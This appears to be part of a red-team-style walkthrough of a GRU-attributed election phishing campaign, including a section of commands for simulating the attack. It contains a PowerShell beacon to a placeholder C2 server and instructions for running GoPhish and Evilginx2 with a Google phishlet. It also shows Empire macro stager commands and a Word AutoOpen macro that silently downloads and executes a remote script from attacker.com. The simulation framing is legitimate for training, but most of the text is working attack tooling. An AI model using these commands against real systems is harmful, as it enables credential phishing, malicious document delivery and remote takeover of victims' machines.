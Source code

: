 
### **🟣 Phase 6: Command & Control**
- The malware established a connection to **GRU-controlled infrastructure**:
  ```powershell
  $url = "http://malicious-server.com/beacon"
  $wc = New-Object System.Net.WebClient
  $wc.Headers.Add("User-Agent", "Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0)")
  $wc.DownloadString($url)
  ```
- This **allowed remote control** of the infected machine.

---

### **⚫ Phase 7: Actions on Objectives**
- The attackers likely:
  - **Harvested credentials** from election officials.
  - Used compromised credentials to **access voter registration systems**.
  - Attempted **further attacks on election infrastructure**.

---

## **4. Tools & Commands for Simulating the Attack**
### **Phishing Infrastructure Setup**
- **Using GoPhish to Send Emails**
  ```bash
  docker run --rm -it -p 3333:3333 -p 8080:8080 gophish/gophish
  ```

- **Using Evilginx2 for Reverse Proxy Phishing**
  ```bash
  git clone https://github.com/kgretzky/evilginx2.git
  cd evilginx2
  go build
  sudo ./evilginx -p ./phishlets/google.yaml
  ```

---

### **Weaponization: Creating Malicious Documents**
- **Using `Empire` to Generate VBA Macros**
  ```powershell
  usestager windows/macro
  set Listener http
  execute
  ```
- **Embedding Malicious Macros into Word Documents**
  ```vbscript
  Sub AutoOpen()
      Shell "powershell -ExecutionPolicy Bypass -NoProfile -WindowStyle Hidden -Command Invoke-Expression (New-Object Net.WebClient).DownloadString('http://attacker.com/script.ps1')"
  End Sub
  ```

---